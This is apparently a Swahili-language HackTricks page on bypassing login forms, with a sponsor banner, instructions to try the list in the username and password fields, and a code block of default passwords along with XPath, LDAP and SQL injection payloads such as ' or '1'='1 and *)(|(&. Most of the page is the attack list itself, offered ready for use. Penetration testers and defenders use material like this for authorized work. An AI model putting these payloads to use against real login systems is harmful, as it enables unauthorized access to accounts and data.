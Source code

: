 <figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Pata mtazamo wa hacker kuhusu programu zako za wavuti, mtandao, na wingu**

**Pata na ripoti udhaifu muhimu, unaoweza kutumiwa kwa faida halisi ya biashara.** Tumia zana zetu zaidi ya 20 za kawaida kubaini uso wa shambulio, pata masuala ya usalama yanayokuruhusu kupandisha mamlaka, na tumia matumizi ya kiotomatiki kukusanya ushahidi muhimu, ukigeuza kazi yako ngumu kuwa ripoti za kushawishi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


Orodha hii ina **payloads za kupita kwenye kuingia kupitia XPath, LDAP na SQL injection**(kwa mpangilio huo).

Njia ya kutumia orodha hii ni kuweka **mistari 200 ya kwanza kama jina la mtumiaji na nywila.** Kisha, weka orodha kamili katika jina la mtumiaji kwanza na kisha katika ingizo la nywila huku ukipatia nywila fulani (kama _Pass1234._) au jina la mtumiaji linalojulikana (kama _admin_).
```
admin
password
1234
123456
root
toor
test
guest
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
```